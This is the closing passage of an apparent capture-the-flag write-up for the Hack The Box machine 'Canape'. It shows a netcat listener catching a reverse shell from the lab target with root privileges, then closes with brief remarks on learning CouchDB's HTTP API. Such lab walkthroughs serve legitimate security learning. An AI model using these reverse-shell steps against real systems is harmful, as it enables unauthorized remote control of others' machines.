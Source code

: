 Listening machine:

```
root@89e502fff05a:~/pentest/hack-the-box/machines/canape# nc -lvnp 3141
listening on [any] 3141 ...
connect to [10.10.14.163] from (UNKNOWN) [10.10.10.70] 39504
# id
uid=0(root) gid=0(root) groups=0(root)
```

Done, now we are **root**.
It think it was an easy box, but getting the user is a bit hard. Because most of us didn’t knew about couchdb.<br>
I used pouchdb and couchdb together one of my projects but even I didn’t knew how to query it using http api ?!<br>
This box, pushes us to learn some.

See you guys later.

